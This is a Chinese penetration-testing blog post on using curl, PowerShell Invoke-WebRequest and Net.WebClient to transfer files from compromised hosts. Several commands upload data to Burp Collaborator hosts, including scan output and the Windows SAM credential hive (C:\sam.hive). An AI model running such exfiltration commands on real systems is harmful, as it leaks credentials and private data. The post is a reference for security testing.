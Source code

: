 ```yaml
---
title: "curl详解"  # 文章标题
date: 2018-07-15T14:30:00+08:00  # 文章创建日期
draft: false  # 是否为草稿，true 表示草稿，不会在网站上显示
author: "runshell"  # 文章作者
description: "介绍Linux curl命令用法和Windows服务器powershell实现类似功能的方法"  # 文章描述
tags: ["curl"]  # 文章标签
categories: ["网络安全"]  # 文章分类
---
```




## 0x00 前言

在渗透测试中经常需要在艰难的环境下执行命令，比如没有回显。为了摆脱困境，经常需要传送文件。curl是一个非常厉害的工具，在绝大多数情况下，linux系统中是存在curl的。此外Windows系统中，powershell4.0及其以后的版本中提供了一个cmlet——`Invoke-WebRequest`，其别名之一是curl。所以，简单记录一下curl的用法。

## 0x01 Linux中的curl

### 1.http请求

* **get**

curl 命令后面直接跟url；使用-H指定请求头，每个-H指定一条header；使用 -o 指定输出到具体文件而不是标准输出。

```bash
curl 'https://files.college.360.cn/others/Q1NBQS3lhoXnvZHmuJfpgI_mioDmnK8t56ysMTbor74tU01C5Y2P6K6uLnBkZg==?time=1537360082&sign=5fd0f26e3346e8171e8656caaa42b0fc' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36' -H 'Referer: https://admin.college.360.cn/user/student/course/1032'
```

* **post**

普通表单post，使用-d指定请求体内容。

```bash
curl -d "user=admin&passwd=12345678" http://127.0.0.1:8080/login
```

文件表单post，使用-F指定需要上传的文件。

```bash
curl http://oumchi.burpcollaborator.net -F "6379.txt=@6379.txt"

# 发送出的请求如下：
# POST / HTTP/1.1
# Host: oumchi.burpcollaborator.net
# User-Agent: curl/7.58.0
# Accept: */*
# Content-Length: 1978
# Content-Type: multipart/form-data; boundary=------------------------c9011604f054ee36
# Expect: 100-continue

# --------------------------c9011604f054ee36
# Content-Disposition: form-data; name="6379.txt"; filename="6379.txt"
# Content-Type: text/plain


# Starting Nmap 7.60 ( https://nmap.org ) at 2018-09-01 08:25 UTC
# Stats: 0:01:21 elapsed; 0 hosts completed (64 up), 64 undergoing SYN Stealth Scan
# SYN Stealth Scan Timing: About 3.82% done; ETC: 09:00 (0:34:01 remaining)
# Stats: 0:01:21 elapsed; 0 hosts completed (64 up), 64 undergoing SYN Stealth Scan
# SYN Stealth Scan Timing: About 3.82% done; ETC: 09:00 (0:33:59 remaining)
# Stats: 0:01:21 elapsed; 0 hosts completed (64 up), 64 undergoing SYN Stealth Scan
# SYN Stealth Scan Timing: About 3.83% done; ETC: 09:00 (0:33:55 remaining)

# --------------------------c9011604f054ee36--

```

* put

```bash
curl http://6biy7e.burpcollaborator.net/ -T ca_setup.exe
```

* 其它方法测试

```bash
curl http://www.example.com -X OPTIONS
curl http://www.example.com -X TRACE
...
```

### 2.ftp请求

* **get**

```bash
curl ftp://user:passwd@ftpserver.com:port/path/filename -o filepath
```

* **put**

```bash
curl –u name:passwd -T size.mp3 ftp://www.xxx.com/mp3/
```

* **ls(dir)**

```bash
curl ftp://user:passwd@ftpserver.com:port/path/
```

* **delete**

```bash
curl –u name:passwd ftp://www.xxx.com/ -X 'DELE mp3/size.mp3'
```

### 3.其他

```ba&#39;sh
-u, --user <user:password> 需要口令验证的http或ftp
--ntlm 使用htlm认证
-A, --user-agent <name> 指定请求头中的user-agent字段
--socks5 <host[:port]> 使用sockes5代理
-x, --proxy [protocol://]host[:port] 使用http/https代理
 
--post301       Do not switch to GET after following a 301 不跳转301
--post302       Do not switch to GET after following a 302 不跳转302
--post303       Do not switch to GET after following a 303 不跳转303

```





## 0x02 Windows中的curl

powershell 中的curl是`Invoke-WebRequest`，它的另一个别名是wget。它是使用`-Headers <IDictionary>`来指定请求头，powershell5.x即以前版本可以指定所有请求头，之后的版本UserAgent只能通过`-UserAgent <String>`指定。

```powershell
Invoke-WebRequest [-Uri] <Uri> [-Body <Object>] [-Certificate <X509Certificate>] [-CertificateThumbprint <String>] [-ContentType <String>] [-Credential <PSCredential>
    ] [-DisableKeepAlive] [-Headers <IDictionary>] [-InFile <String>] [-MaximumRedirection <Int32>] [-Method { Default | Get | Head | Post | Put | Delete | Trace | Options
     | Merge | Patch}] [-OutFile <String>] [-PassThru] [-Proxy <Uri>] [-ProxyCredential <PSCredential>] [-ProxyUseDefaultCredentials] [-SessionVariable <String>] [-Timeou
    tSec <Int32>] [-TransferEncoding {chunked | compress | deflate | gzip | identity}] [-UseBasicParsing] [-UseDefaultCredentials] [-UserAgent <String>] [-WebSession <Web
    RequestSession>] [<CommonParameters>]
```

### 1.http

* **get**

使用-UserAgent 指定UA，使用-Headers指定请求头，使用-OutFile指定输出到文件。若不使用-OutFile，将返回一个HtmlWebResponseObject对象，只在屏幕上显示部分摘要信息，若要显示详细信息可以先将其存入变量，再查看变量content等属性。若只想产看响应体，可用管道符传给`write-host`,如`curl ifconfig.me | write-host` 。

```powershell
Invoke-WebRequest -Uri "https://files.college.360.cn/others/Q1NBQS3lhoXnvZHmuJfpgI_mioDmnK8t56ysMTbor74tU01C5Y2P6K6uLnBkZg==?time=1537360082&sign=5fd0f26e3346e8171e8656caaa42b0fc" -Headers @{"Accept"="*/*"; "Referer"="https://admin.college.360.cn"} -UserAgent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36" -OutFile xxx.pdf
```

* **post**

在使用非get方法时必须用-Method指定请求方法；请求体可以用-body指定一个string或其它类型的对象，也可以从本地文件获取内容作为请求体，使用-infile指定本地文件。

```powershell
curl http://lti9gf.burpcollaborator.net -Method post -Body "user=admin&passwd=12345678" 
```

* **put**

如果服务器支持put方法，可以直接put上传文件

```powershell
curl http://lti9gf.burpcollaborator.net -Method put -InFile ‪C:\sam.hive
```

### 2.ftp

似乎只能下载文件

```powershell
curl ftp://user:password@127.0.0.1:21/s2-057.py -outFile s2-057.py
```

## 0x03 net.webclient

在powershell4.0以前没有提供`Invoke-WebRequest`,这时我们可以使用Net.WebClient，它是.NET Framework中的一个类。它的功能更加强大。

```powershell
#ftp下载
(New-Object System.Net.WebClient).downloadfile('ftp://admin:admin@172.28.100.68/ppt.txt','ppt.txt')

#ftp上传
(New-Object System.Net.WebClient).uploadfile('ftp://admin:admin@172.28.100.68/ppt1.txt','ppt.txt')

#http上传
(New-Object System.Net.WebClient).uploadfile('http://8060wg.burpcollaborator.net','ppt.txt')

#http下载文件
(New-Object System.Net.WebClient).downloadfile('http：//172.28.100.68/ppt.txt','ppt.txt')

#下载到内存
$response=(New-Object System.Net.WebClient).downloadstring('http：//172.28.100.68/ppt.txt')#得到string
$response=(New-Object System.Net.WebClient).downloaddata('http：//172.28.100.68/ppt.txt')#得到byte[]
#从内存上传
(New-Object System.Net.WebClient).uploadstring('http://8060wg.burpcollaborator.net',$response)
(New-Object System.Net.WebClient).uploaddata('http://8060wg.burpcollaborator.net',$response)

#指定请求头
$mywebclient=(New-Object System.Net.WebClient);
$mywebclient.Headers.Add("Cookie"," HMACCOUNT=057DAB164B4FC7D1; BAIDUID=3C7BA5C29716B9F251F8BC090E0BF028:FG=1; BIDUPSID=3C7BA5C29716B9F251F8BC090E0BF028; PSTM=1532227383")
$mywebclient.Headers.Add("Referer","https://newtab.firefoxchina.cn/world-tab-index.html")
$mywebclient.downloadstring('http://8060wg.burpcollaborator.net')


```
